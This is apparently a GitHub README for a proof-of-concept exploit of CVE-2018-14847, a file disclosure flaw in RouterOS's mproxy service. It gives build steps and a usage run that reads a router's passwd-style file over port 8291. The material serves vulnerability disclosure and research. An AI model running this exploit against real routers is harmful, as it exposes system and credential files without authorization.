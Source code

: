 # CVE-2018-14847 Proof of Concept

This is an implementation of CVE-2018-14847 which is a file disclosure vulnerability affecting the mproxy binary in Router OS up to 6.42. 

## Compilation
This code was tested on Ubuntu 18.04. Install the following dependencies:

```sh
sudo apt install libboost-all-dev cmake
```

To compile simply do the following:

```sh
cd routeros/poc/cve-2018-14847
mkdir build
cd build
cmake ..
```

## Usage

```sh
albinolobster@ubuntu:~/routeros/poc/cve-2018-14847/build$ ./cve_2018_14847_poc --ip 192.168.1.103 --port 8291

=== File Contents (size: 69) ===
nobody:*:99:99:nobody:/tmp:/bin/sh
root::0:0:root:/home/root:/bin/sh
```
